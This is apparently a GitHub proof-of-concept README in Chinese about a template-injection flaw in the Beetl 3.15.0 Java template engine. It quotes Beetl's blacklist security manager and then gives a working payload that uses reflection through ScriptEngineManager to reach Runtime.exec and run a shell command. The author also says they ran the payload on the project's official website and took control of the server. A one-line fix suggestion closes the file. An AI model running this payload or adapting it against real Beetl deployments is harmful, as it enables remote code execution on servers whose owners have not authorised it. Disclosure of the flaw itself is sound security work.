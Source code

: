 # Beetl-3.15.0-vuln-poc
### Beetl直到最新版本都存在SSTI(模版注入)漏洞
- 对于安全管理器的策略采用的是黑名单的机制
```java
public class DefaultNativeSecurityManager implements NativeSecurityManager{

        @Override
        public boolean permit(String resourceId, Class c, Object target, String method){
                if (c.isArray()){
                        //允许调用，但实际上会在在其后调用中报错。不归此处管理
                        return true;
                }
                String name = c.getSimpleName();
                String pkg = c.getPackage().getName();
                if (pkg.startsWith("java.lang")){
                        if (name.equals("Runtime") || name.equals("Process") || name.equals("ProcessBuilder")
                                        || name.equals("System")){
                                return false;
                        }
                }
                return true;
        }
}
```

- 如果使用反射(java reflect)即可以绕过黑名单的一切策略

- poc
```java
${@Class.forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("s='open -a Calculator';java.lang.Runtime.getRuntime().exec(s);")}
```
<img src="https://i.328888.xyz/2023/03/31/ilOcbN.png" alt="ilOcbN.png" border="0" />

- 拿官方的网站做例子 我输入了以下payload仅用于测试

<a href="https://imgloc.com/i/ilbloa"><img src="https://i.328888.xyz/2023/03/31/ilbloa.png" alt="ilbloa.png" border="0" /></a>

- 并成功拿到服务器的控制权限

<img src="https://i.328888.xyz/2023/03/31/ilbpyZ.png" alt="ilbpyZ.png" border="0" />

### 修复建议
- 限制反射(java reflect)

















